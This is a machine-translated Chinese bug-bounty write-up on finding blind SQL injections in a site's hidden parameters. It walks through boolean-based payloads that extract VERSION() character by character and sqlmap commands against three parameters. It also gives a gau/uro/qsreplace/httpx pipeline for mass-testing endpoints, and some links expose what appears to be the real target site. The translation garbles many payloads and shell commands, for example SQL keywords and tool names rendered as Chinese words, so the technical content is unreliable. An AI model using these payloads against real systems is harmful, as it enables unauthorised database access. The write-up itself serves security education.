# 我是如何在 Bug Bounty 中发现 5 分钟内多次 SQL 注入的

> 原文：<https://infosecwriteups.com/how-i-found-multiple-sql-injections-in-5-minutes-in-bug-bounty-40155964c498?source=collection_archive---------0----------------------->

大家好，SQL 注入是 web 应用程序中最严重的漏洞之一，今天我将向大家展示我是如何发现多个 SQL 注入漏洞的，所以让我们把我们的目标称为**target.com**



当我快速浏览 HTML 代码时



我发现有两个隐藏的参数
，所以我开始通过添加单引号来测试字母参数

我得到了响应代码 200 OK，这意味着他们做了一些错误处理

但是响应是查询失败，看起来像是数据库在后台处理了我们的查询

让我们试着知道这里有多少列

> ？字母=a '按 2-V 排序



我的查询失败了

> ？字母=a '按 1-V 排序



它执行了，但没有得到“查询失败:”

所以让我们试着提取版本

> ？letter=a '联合选择版本()— -



查询已执行，但未获得响应的版本

所以我开始使用盲 SQL 注入技术来过滤数据

> ？字母=a '和'奥马尔' = '奥马尔'



> ？字母=a '和'奥马尔' = '非-奥马尔'



我们这里有基于布尔的 SQLI

从前面两个条件中，我们注意到

如果我们的条件为真，内容长度将大于 8 万

如果我们的条件为假，内容长度将在 5000 范围内

## 剥削:

> ？letter=a '和 ORD(MID(VERSION()，1，1))>96 和' omar'='omar

MID()函数作为 SUBSTR()和 [SUBSTRING()](https://www.w3schools.com/sql/func_mysql_substring.asp) 函数工作，它们从字符串的任意位置提取子字符串，就像 **MID(VERSION()，1，1)** 将从版本函数中提取第一个字符串 **MID(VERSION()，2，1)** 将从版本函数中提取第二个字符串

函数的作用是:用十进制数值表示你的电脑的所有输入



ASCII 表

让我们假设 version()的第一个字符串是“a”，因此根据上表，这些函数 ORD(MID(VERSION()，1，1))的混合输出将是 97

我们使用这种技术，而不是做重蛮力，使之智能轻蛮力

因此，我们将根据上表检查第一个字符串是否是小字符

> ？letter=a '和 ORD(MID(VERSION()，1，1))>96 和' omar'='omar



根据内容长度，条件为假

所以我们将检查第一个字符串是否是大写字符

> ？letter=a '和 ORD(MID(VERSION()，1，1))>64 和' omar'='omar



根据内容长度，条件为假

所以我们将检查第一个字符串是否是一个数字

> ？letter=a '和 ORD(MID(VERSION()，1，1)) <58 AND ‘omar’=’omar
> 
> ?letter=a’ AND ORD(MID(VERSION(),1,1))> 47 和' omar'='omar



根据内容长度，这两个查询都是真条件

> ？letter=a '和 ORD(MID(VERSION()，1，1))=53 和' omar'='omar

根据内容长度，条件为真

现在我们已经从版本函数中提取了第一个字符串，根据上面的 ASCII 表，它等于 5

这项技术最酷的地方在于，我们可以在不到 10 个请求内完成提取一个子串，而不是做 100 个请求

无论如何，到目前为止，我认为有这样的乐趣就足够了，现在我们应该转移到 sqlmap

> 顺便说一句，前面的技术与 sqlmap 将用来提取横幅的技术相同

## 第一个 SQLI

> python 3 sqlmap . py-u "[https://target.com/target.php?letter=a](https://etcsl.orinst.ox.ac.uk/edition2/etcsllemma.php?letter=a)-p 字母-b



让我们回到 HTML 代码

如果你记得我们有两个隐藏的参数“字母”和“位置”

## 第二个 SQLI

因此，让我们测试“pos”参数

> python 3 sqlmap . py-u "【https://target.com/target.php?pos=a T2"-p pos-b



通常，开发人员会在整个应用程序中犯同样的错误，所以我在所有参数和端点上自动化了同样的攻击

## 侦察:

我使用 gau 从 AlienVault 的开放威胁交换、Wayback Machine 和 Common Crawl 中收集了端点，然后使用 uro 过滤输出，去掉图像、css 和 js，只获得唯一的端点

> target.com ┌──(omar㉿kali)-[~
> └─$高|乌罗>被动端点

然后获取有参数的端点

> ┌──(omar㉿kali)-[~]
> └─$猫>参数-端点

让我们用单引号替换参数值

> ┌──(omar㉿kali)-[~]
> └─$猫参数-端点| QS replace \ '>sqli-测试-端点

让我们将响应与“查询失败:”相匹配

> ┌──(omar㉿kali)-[~]
> └─$ httpx-l sqli-test-endpoints-ms "查询失败:"



## 第三届 SQLI

发现查询的“查找”参数响应失败:

> python 3 sqlmap . py-u "[https://target.com/target.php?lookup=a](https://etcsl.orinst.ox.ac.uk/edition2/etcsllemma.php?letter=a)"-p lookup-b



我们有新的了

希望你们喜欢这篇报道

# 别忘了保持联系

推特: [@OmarHashem666](https://twitter.com/OmarHashem666)

领英:[https://www.linkedin.com/in/omar-1-hashem](https://www.linkedin.com/in/omar-1-hashem)

YouTube:[https://www.youtube.com/@omarhashem7351](https://www.youtube.com/@omarhashem7351)

## 保持联系:

[**Linkedin**](https://www.linkedin.com/in/omar-1-hashem)**|**[**Youtube**](https://www.youtube.com/channel/UCJ1yNtgZP5LRO7ebZXSnAZQ)**|**[**Twitter**](https://twitter.com/OmarHashem666)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！